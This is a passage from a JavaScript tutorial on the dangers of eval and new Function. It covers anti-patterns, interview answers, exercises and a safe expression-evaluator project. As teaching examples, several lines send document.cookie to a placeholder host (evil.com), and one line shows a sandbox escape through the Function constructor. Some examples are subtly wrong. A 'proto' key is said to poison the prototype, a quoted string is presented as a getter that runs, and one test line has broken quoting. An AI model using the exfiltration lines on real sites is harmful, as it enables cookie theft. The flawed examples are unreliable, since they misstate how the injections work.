function makeCounter() {
  let count = 0;
  const next = new Function("state", "return state.count++");
  return () => next({ count });
}
// Or just:
function makeCounter() {
  let count = 0;
  return () => count++;
}
```

### 6.6 `eval("(" + userInput + ")")` is NOT safe

```js
// ANTI-PATTERN — this is the classic pre-JSON.parse JSON parser
const data = eval("(" + userInput + ")");
```

This is dangerous even if `userInput` looks like JSON. Consider:

```
{"name": "x", "proto": {"isAdmin": true}}
```

This poisons the prototype of every object in your program. Or:

```
{"name": "x", "get f() { fetch('https://evil.com/?c=' + document.cookie) }"}
```

When the object is constructed, the getter runs and exfiltrates the cookie.

**Fix:** Always use `JSON.parse`. If you need to handle dates or other non-JSON types, use a reviver:

```js
const data = JSON.parse(userInput, (key, value) => {
  if (typeof value === "string" && /^\d{4}-\d{2}-\d{2}/.test(value)) {
    return new Date(value);
  }
  return value;
});
```

### 6.7 Treating `new Function` as a sandbox

```js
// ANTI-PATTERN — this is NOT a sandbox
function runUntrusted(code) {
  const fn = new Function(code);
  fn();
}
runUntrusted("fetch('https://evil.com/?c=' + document.cookie)");
```

`new Function` runs the code in the global scope with full access to globals (`fetch`, `document`, `process`, `require`, etc.). It is not a security boundary.

**Fix:** Use a real sandbox. In Node, use `vm` (with caveats) or `isolated-vm`. In the browser, use a sandboxed `iframe` or `quickjs-emscripten`.

### 6.8 Using `eval` to "build" objects with dynamic keys

```js
// ANTI-PATTERN
const key = userInput;
const obj = eval("({ " + key + ": 42 })");
```

This is both a security hole (code injection via `key`) and an anti-pattern (dynamic object construction should use computed property names).

**Fix:**

```js
const key = userInput;
const obj = { [key]: 42 };
```

### 6.9 Not realizing `Function` is `eval`-equivalent for security

Some developers replace `eval` with `new Function` thinking they have made the code "safer." They have made it *faster* (no optimization disable) and *cleaner* (function-shaped output), but they have not made it *safer*. Both are code-injection vectors if the input is untrusted.

### 6.10 Forgetting that eval'd code runs with the calling context's `this`

```js
const obj = {
  name: "Alice",
  greet() {
    eval("console.log('Hi, ' + this.name)"); // 'Hi, Alice' — this is preserved
  }
};
obj.greet();
```

Direct eval inherits the `this` of the calling context. This is rarely what you want when running untrusted code.

---

## 7. Best Practices and Design Patterns

### 7.1 Don't use `eval`

This is the rule. If you remember one thing from this note, remember this. `eval` is almost never the right tool, and the cases where it is are well-defined (REPLs, template compilers, sandboxes). If your use case is not one of those, find a different tool.

### 7.2 Don't use `new Function` unless you are building a compiler or template engine

`new Function` is the right tool when you have a *trusted* source string that you generated yourself (via an AST visitor, a template compiler, etc.) and you need to materialize it as a callable function. In that case:

- Use `new Function` (not `eval`), because it is cleaner and does not disable optimization.
- Prepend `"use strict";` to the body.
- Pass all dependencies as explicit parameters; do not rely on globals.
- Memoize the generated function if the same source is compiled repeatedly.

### 7.3 Use `JSON.parse` for data

For all data interchange — API responses, configuration files, persisted state — use `JSON.parse`. It is a parser, not an evaluator, and it is safe.

### 7.4 Use bracket notation for dynamic property access

For `obj[key]` where `key` is dynamic, use bracket notation. Never `eval("obj." + key)`.

### 7.5 Use a real parser for expressions

For arithmetic, boolean, or domain-specific expressions, use a parser library (`jsep`, `expr-eval`, `mathjs`) or write your own (see Example B). The parser produces an AST; you evaluate the AST; no code is ever executed.

### 7.6 If you MUST use `new Function`, sandbox it

If you genuinely need to run code generated from a string, treat the input as untrusted and run it in a real sandbox:

- **Node.js:** `vm.runInNewContext(code, sandbox)` for low-stakes isolation, `isolated-vm` for true isolation.
- **Browser:** sandboxed `<iframe>` with `sandbox="allow-scripts"` (no `allow-same-origin`), or `quickjs-emscripten` for a WASM-based interpreter.
- **Communication:** `postMessage` between the sandbox and the parent, with strict message validation.

### 7.7 Document the security implications

If you use `eval` or `new Function` in a library, document it prominently. Add a security note explaining:

- What the input source is.
- Why it is trusted (or how it is sandboxed).
- What the user must not do (e.g., "do not pass user input to this function").

### 7.8 Memoize generated functions

If you use `new Function` to compile the same source string multiple times, memoize:

```js
const cache = new Map();
function compile(src) {
  if (cache.has(src)) return cache.get(src);
  const fn = new Function("ctx", `"use strict"; ${src}`);
  cache.set(src, fn);
  return fn;
}
```

### 7.9 Use `Function` for "I need a no-op function"

A common micro-pattern: `const noop = new Function();` produces a function that does nothing and returns `undefined`. This is fine — it is trusted (you wrote the empty body). For clarity, prefer `const noop = () => {};` though.

### 7.10 The "compile then call" pattern

When using `new Function` for a template engine, separate the compile step from the call step:

```js
function compile(template) {
  return new Function("data", `"use strict"; ${generateBody(template)}`);
}
// Later:
const render = compile(template);
const html = render(data);
```

This separates concerns and allows the compiled function to be cached.

---

## 8. Technical Interview Knowledge

### Q1: What is the difference between direct and indirect eval?

**A:** A **direct eval** is a syntactic call to `eval(...)` where `eval` refers to the built-in eval function. It runs in the current lexical scope: it can read and modify local variables, and in sloppy mode it can introduce new bindings that leak into the surrounding scope. Direct eval also disables JIT optimization of the containing function.

An **indirect eval** is any other way of calling eval — `(0, eval)(str)`, `var e = eval; e(str)`, `window.eval(str)`, `eval.call(null, str)`. Indirect eval runs in the global scope: it cannot see local variables, it adds bindings to the global object, and it does not disable optimization of the calling function.

### Q2: Does `eval` have access to local variables?

**A:** Direct eval does. Indirect eval does not. This is the fundamental distinction. If you write `eval("x = 1")` inside a function with a local `x`, the local `x` is mutated. If you write `(0, eval)("x = 1")`, the code runs at global scope and either mutates a global `x` or throws a `ReferenceError` if no global `x` exists.

### Q3: What does `new Function` do?

**A:** `new Function(arg0, arg1, ..., argN, body)` creates a new function at runtime. The arguments before the last are parameter names; the last argument is the function body. The resulting function is declared at global scope — it captures globals but not the lexical scope of its call site. It is roughly equivalent to evaluating a top-level `function` declaration. It is useful for compiling trusted source strings into callable functions (template engines, DSL compilers). It does not disable optimization of the calling function.

### Q4: Why is `eval` slow?

**A:** Three reasons:

1. **No JIT optimization.** V8 (and other engines) cannot optimize functions containing direct `eval`, because the eval'd code could modify any local variable, add bindings, or change the lexical environment. The whole function stays in the interpreter.
2. **Parse cost.** Every `eval` call requires the parser to run on the string. Parsing is one of the most expensive phases of JS execution.
3. **No caching.** Each distinct eval'd string is a new function with its own optimization history. Repeated `eval` of the same string does not benefit from prior compilation.

Indirect eval and `new Function` avoid reason 1 (they do not disable optimization of the caller), but they still incur reasons 2 and 3.

### Q5: Is `eval` safe?

**A:** No. If any portion of the string passed to `eval` is derived from user input, you have a code-injection vulnerability. The attacker can execute arbitrary JavaScript, leading to XSS (in browsers) or RCE (in Node.js). Even `eval("(" + userInput + ")")` is unsafe — getters, `[[Prototype]]` poisoning, and constructor attacks all execute during the eval. `eval` is also not a sandbox: eval'd code has the same privileges as the surrounding context. For untrusted code, use `vm` (Node), sandboxed `iframe` (browser), or `quickjs-emscripten`.

### Q6: How would you parse JSON without `JSON.parse`?

**A:** You would write a parser. JSON is a well-defined grammar (objects, arrays, strings, numbers, booleans, null). A recursive-descent parser for JSON is about 100 lines of code. You should *not* use `eval("(" + str + ")")` — it is unsafe. If `JSON.parse` is unavailable (e.g., in a very old browser), the safe approach is to use a polyfill that implements a real parser. The original `json2.js` by Douglas Crockford is a well-known example: it parses, then (only if parsing succeeds) uses `eval` as an optimization — but only after a regex-based sanity check.

### Q7: How would you build a sandboxed plugin system?

**A:** Layered isolation:

1. **Code execution.** Use `vm.runInNewContext(code, sandbox)` (Node) or a sandboxed `<iframe>` with `sandbox="allow-scripts"` (browser). For stronger isolation, use `isolated-vm` (Node) or `quickjs-emscripten` (browser, WASM).
2. **Capability surface.** Provide the plugin with a controlled API: an object with specific methods (`getData`, `saveData`, `log`) rather than the full global. Do not expose `fetch`, `require`, `process`, or `window` directly.
3. **Message passing.** Communicate via `postMessage` (browser) or `vm`'s context object (Node), with strict validation of every message.
4. **Resource limits.** Use timeouts (kill the plugin if it runs too long), memory caps, and CPU throttling.
5. **Audit.** Log every plugin invocation.

`new Function` alone is not a sandbox. It provides no isolation. Treat it as a code generator, not a security boundary.

### Q8: Why does strict mode change `eval` behavior?

**A:** Strict mode makes three changes to `eval`:

1. **Eval gets its own scope.** Bindings created inside `eval` (via `var`, `function`, `let`, `const`) do not leak to the enclosing function. This means a direct eval cannot add new bindings to the surrounding scope, which makes the function easier to optimize and reason about.
2. **`this` is `undefined`** at the top level of strict-mode eval (instead of the global object).
3. **`arguments` and `caller` are poisoned** on functions created inside strict eval.

The motivation for change 1 is to make `eval` more predictable and to enable future optimizations (engines can know that strict direct eval cannot add bindings, so they can pre-compute the set of variables in scope). Strict mode does *not* prevent eval from reading or mutating existing local variables — that would break too much existing code.

---

## 9. Practical Exercises

### Exercise 1: Demonstrate direct vs indirect eval scope

**Task:** Write a function that has a local variable `secret`. Call direct eval to log it. Call indirect eval to demonstrate that `secret` is invisible. Then demonstrate that in strict mode, direct eval cannot leak new bindings.

**Solution (JS):**

```js
function demonstrateEvalScope() {
  const secret = "the answer is 42";

  // Direct eval: sees the local
  eval("console.log('direct:', secret)");

  // Indirect eval: does NOT see the local
  (0, eval)("console.log('indirect:', typeof secret)");

  // Sloppy direct eval: leaks new bindings
  eval("var leaked = 'I escaped'");
  console.log("leaked in sloppy:", leaked);
}
demonstrateEvalScope();

function demonstrateStrictEvalScope() {
  "use strict";
  const secret = "the answer is 42";

  // Direct eval still reads locals
  eval("console.log('strict direct:', secret)");

  // But new bindings do not leak
  eval("var notLeaked = 'I am contained'");
  try {
    console.log(notLeaked);
  } catch (e) {
    console.log("strict contains eval:", e.message);
  }
}
demonstrateStrictEvalScope();
```

**Solution (TS):**

```ts
function demonstrateEvalScope(): void {
  const secret: string = "the answer is 42";
  eval("console.log('direct:', secret)");
  (0, eval)("console.log('indirect:', typeof secret)");
  eval("var leaked = 'I escaped'");
  // @ts-expect-error — eval'd vars are invisible to TS
  console.log("leaked in sloppy:", leaked);
}
demonstrateEvalScope();

function demonstrateStrictEvalScope(): void {
  "use strict";
  const secret: string = "the answer is 42";
  eval("console.log('strict direct:', secret)");
  eval("var notLeaked = 'I am contained'");
  try {
    // @ts-expect-error
    console.log(notLeaked);
  } catch (e: any) {
    console.log("strict contains eval:", e.message);
  }
}
demonstrateStrictEvalScope();
```

**Expected output:**

```
direct: the answer is 42
indirect: undefined
leaked in sloppy: I escaped
strict direct: the answer is 42
strict contains eval: notLeaked is not defined
```

### Exercise 2: Replace an `eval`-based dynamic property access with bracket notation

**Task:** You are given this dangerous function:

```js
function getValue(obj, path) {
  return eval("obj." + path);
}
```

Replace it with a safe implementation that does not use `eval`. Support dot-separated paths like `"a.b.c"` and array indices like `"a[0].b"`.

**Solution (JS):**

```js
function getValue(obj, path) {
  // Tokenize the path: "a.b[0].c" -> ["a", "b", "0", "c"]
  const tokens = path
    .split(/[\.\[\]]/)
    .filter(t => t !== "");
  return tokens.reduce((acc, token) => {
    if (acc == null) return acc;
    return acc[token];
  }, obj);
}

// Test
const data = { a: { b: [{ c: 42 }] } };
console.log(getValue(data, "a.b[0].c")); // 42
console.log(getValue(data, "a.b[1].c")); // undefined (no throw)
console.log(getValue(data, "x.y.z"));    // undefined (no throw)

// Security: even if path contains attacker input, no code executes
console.log(getValue(data, "a.b[0].c')); fetch('https://evil.com'); //"));
// undefined — the path is treated as data, not code
```

**Solution (TS):**

```ts
function getValue<T>(obj: T, path: string): unknown {
  const tokens = path
    .split(/[\.\[\]]/)
    .filter((t) => t !== "");
  return tokens.reduce<unknown>((acc, token) => {
    if (acc == null) return acc;
    return (acc as Record<string, unknown>)[token];
  }, obj);
}

// Test
const data = { a: { b: [{ c: 42 }] } };
console.log(getValue(data, "a.b[0].c")); // 42
console.log(getValue(data, "a.b[1].c")); // undefined
console.log(getValue(data, "x.y.z"));    // undefined
```

### Exercise 3: Build a safe arithmetic expression evaluator

**Task:** Build a function `safeEval(expr, env)` that evaluates an arithmetic expression with `+`, `-`, `*`, `/`, parentheses, numbers, and named variables. Do not use `eval` or `new Function`. Throw on invalid input.

**Solution:** See Section 5.2 (Example B). The full implementation (tokenizer, parser, evaluator) is given there. The key insight is: **parse to an AST, then evaluate the AST.** The AST is data; evaluating it is a switch statement; no code is ever executed.

### Exercise 4: Build a sandboxed plugin runner using `new Function`

**Task:** Build a `runPlugin(code, api)` function that executes a plugin's source code with a controlled API object. The plugin should not have access to globals like `fetch`, `document`, or `process`. Use `new Function` and pass the API explicitly. Document the security limitations.

**Solution (JS):**

```js
function runPlugin(code, api) {
  // The plugin is wrapped so that:
  // 1. It runs in strict mode.
  // 2. The only "global" it sees is the `api` parameter.
  // 3. We shadow common globals with undefined to make accidental
  //    access more obvious (defense in depth, NOT a real sandbox).
  const wrapped = `
    "use strict";
    return (function(api) {
      const window = undefined;
      const document = undefined;
      const fetch = undefined;
      const globalThis = undefined;
      const process = undefined;
      const require = undefined;
      ${code}
    })(api);
  `;
  const fn = new Function("api", wrapped);
  return fn(api);
}

// Test
const api = {
  log: (...args) => console.log("[plugin]", ...args),
  getConfig: () => ({ theme: "dark", lang: "en" }),
};
runPlugin(`
  const cfg = api.getConfig();
  api.log("Plugin started with theme:", cfg.theme);
`, api);
// Output: [plugin] Plugin started with theme: dark

// SECURITY WARNING:
// This is NOT a real sandbox. The plugin can still:
// - Access globals via (function(){return this})() in sloppy mode (we forced strict, so this is undefined)
// - Escape via constructor chains: ({}).constructor.constructor("return fetch")()
// - Access globals via the prototype chain of passed-in objects
// For real isolation, use vm, isolated-vm, sandboxed iframe, or quickjs-emscripten.
```

**Solution (TS):**

```ts
type PluginAPI = {
  log: (...args: unknown[]) => void;
  getConfig: () => Record<string, unknown>;
};

function runPlugin(code: string, api: PluginAPI): unknown {
  const wrapped = `
    "use strict";
    return (function(api) {
      const window = undefined;
      const document = undefined;
      const fetch = undefined;
      const globalThis = undefined;
      const process = undefined;
      const require = undefined;
      ${code}
    })(api);
  `;
  const fn = new Function("api", wrapped) as (api: PluginAPI) => unknown;
  return fn(api);
}

const api: PluginAPI = {
  log: (...args: unknown[]) => console.log("[plugin]", ...args),
  getConfig: () => ({ theme: "dark", lang: "en" }),
};
runPlugin(`
  const cfg = api.getConfig();
  api.log("Plugin started with theme:", cfg.theme);
`, api);
```

**Important caveat:** The shadowing above is *defense in depth*, not a sandbox. A determined attacker can escape via `({}).constructor.constructor("return fetch")()` (the `Function` constructor is reachable from any object). For true isolation, use `vm.runInNewContext` (Node, with caveats), `isolated-vm` (Node, true isolation), a sandboxed `<iframe>` (browser), or `quickjs-emscripten` (browser, WASM-based).

---

## 10. Mini-Project Blueprint

### Project: Safe Expression Evaluator

**Goal:** Build a library that evaluates arithmetic and boolean expressions from strings, safely (no `eval`, no `new Function`), with full TypeScript types, an extensible function-call API, and reasonable error messages.

**Architecture:**



**Phases:**

1. **Lexer.** Convert the input string into a stream of tokens. Token types: `NUMBER`, `STRING`, `IDENT`, `OP` (`+`, `-`, `*`, `/`, `%`, `>`, `<`, `>=`, `<=`, `==`, `!=`, `&&`, `||`, `!`), `LPAREN`, `RPAREN`, `COMMA`. Reject unexpected characters with a clear error.
2. **Parser.** Recursive-descent parser following the grammar:
   - `expr   := orExpr`
   - `orExpr := andExpr ("||" andExpr)*`
   - `andExpr := cmpExpr ("&&" cmpExpr)*`
   - `cmpExpr := addExpr (("==" | "!=" | "<" | ">" | "<=" | ">=") addExpr)?`
   - `addExpr := mulExpr (("+" | "-") mulExpr)*`
   - `mulExpr := unary (("*" | "/" | "%") unary)*`
   - `unary  := ("!" | "-") unary | primary`
   - `primary := NUMBER | STRING | IDENT | IDENT "(" args ")" | "(" expr ")"`
   - `args   := expr ("," expr)*`
3. **AST.** A tagged-union type:
   ```ts
   type AST =
     | { type: "Number"; value: number }
     | { type: "String"; value: string }
     | { type: "Var"; name: string }
     | { type: "Call"; name: string; args: AST[] }
     | { type: "Unary"; op: "!" | "-"; operand: AST }
     | { type: "Binary"; op: string; left: AST; right: AST };
   ```
4. **Evaluator.** A recursive function that walks the AST and produces a value. Variable lookups go through a provided `Env`. Function calls go through a provided `Funcs` map (with arity and type checks).
5. **Compiler (optional).** Walk the AST and emit a TypeScript function that does the same evaluation but without the dispatch overhead. This is the only place `new Function` is acceptable, and only because the source is fully generated by your own AST visitor — never from user input.
6. **API.**
   ```ts
   const ev = createEvaluator({
     functions: {
       sum: (a, b) => a + b,
       max: (...args) => Math.max(...args),
     },
   });
   ev.evaluate("sum(1, 2) + max(3, 4, 5)"); // 8
   const fn = ev.compile("a * b + c");
   fn({ a: 2, b: 3, c: 4 }); // 10
   ```
7. **Tests.** Property-based tests: generate random ASTs, evaluate them with the evaluator and with `eval` (in a controlled context), and compare. This catches evaluator bugs.
8. **Security audit.** Verify that no user input ever reaches `eval` or `new Function`. The compiler phase uses only AST-generated source. The evaluator never executes code.
9. **Documentation.** Explain the grammar, the API, the security model, and the performance characteristics (evaluator speed, compiled-function speed, parse cost).

**Extensions:**

- Add support for objects and arrays (member access, indexing).
- Add support for ternary `? :`.
- Add support for assignment (turn the evaluator into a mini-language).
- Add source maps for compiled functions (so errors point back to the original expression).

This project crystallizes the entire note: parsing data into a structured form, evaluating that structure, and never crossing the data/code boundary unintentionally. It is the canonical "替代 eval" project, and the result is something you could publish as a library.

---

## 11. Core Connections

- [[1.01 Syntax and Lexical Structure]] — `eval` and `new Function` operate on source text, so understanding lexical structure (identifiers, literals, operators, punctuators) is prerequisite to understanding what they accept.
- [[1.08 Execution Context and Lexical Environment]] — Direct eval runs in the current lexical environment; indirect eval and `new Function` run in the global environment. The distinction is fundamentally about which environment record is used.
- [[1.09 Hoisting Mechanics]] — Sloppy-mode direct eval can introduce `var` and `function` bindings that are hoisted into the surrounding scope. Strict mode suppresses this leakage.
- [[1.25 V8 Engine Pipeline]] — Direct eval disables TurboFan optimization of the containing function. Understanding the Ignition / TurboFan / Maglev pipeline clarifies why.
- [[1.31 Proxy and Reflect APIs]] — Proxies can intercept property access on the global object, which means eval'd code can be observed (and to a limited extent, controlled) via Proxy. This is a defense-in-depth technique, not a sandbox.
- [[6.07 TSC Compiler Operation]] — TypeScript cannot type-check code inside `eval` strings. The TS compiler treats `eval` as returning `any` and ignores referenced variables. This is a maintainability cost.
- [[6.08 ESBuild and SWC]] — Build tools that transform code at compile time are the alternative to runtime `eval`. If you can compile it, you do not need to eval it. This is why bundlers and transpilers are the "right" way to handle dynamic code generation in most cases.

---

## Appendix: Quick Reference Card

| Pattern | Verdict |
|---|---|
| `eval(str)` (direct) | Avoid. Disables optimization. Can mutate locals. |
| `(0, eval)(str)` (indirect) | Avoid. No scope leak, no optimization hit, but still a security risk. |
| `new Function(args, body)` | Acceptable for trusted, self-generated source (template engines). Not a sandbox. |
| `eval("(" + json + ")")` | Never. Use `JSON.parse`. |
| `eval("obj." + key)` | Never. Use `obj[key]`. |
| `eval(userInput)` | Never. Use a parser or a real sandbox. |
| `new Function(userInput)` | Never (unless in a real sandbox). |
| `vm.runInNewContext(code, sandbox)` (Node) | Acceptable for low-stakes isolation. Not a true sandbox. |
| `isolated-vm` (Node) | Good. True isolation via separate V8 isolate. |
| Sandboxed `<iframe>` (browser) | Good. Use `sandbox="allow-scripts"` without `allow-same-origin`. |
| `quickjs-emscripten` (browser, WASM) | Best. Fully isolated interpreter. |
| `jsep` / `expr-eval` / `mathjs` (parsers) | Use these for expression evaluation. |

### Final word

`eval` and `new Function` are not bugs in JavaScript. They are tools with narrow, well-defined purposes. The danger is that they look like general-purpose tools — "run this string" — when in fact they are specialist tools for "compile this string into a function, in a context where the string is trusted." Every time you use them outside that narrow context, you are accepting a security risk, a performance penalty, and a maintainability cost that is almost always unjustified.

Learn to recognize the patterns. Replace `eval("(" + json + ")")` with `JSON.parse`. Replace `eval("obj." + key)` with `obj[key]`. Replace `eval(arithmeticExpr)` with a parser. Replace `eval(userCode)` with a sandbox. When you genuinely need dynamic code generation (template engines, DSLs, REPLs), use `new Function` with explicit parameters and a strict-mode body, and document the security implications.

Do this, and you will have mastered one of the most important "don't" rules in JavaScript.

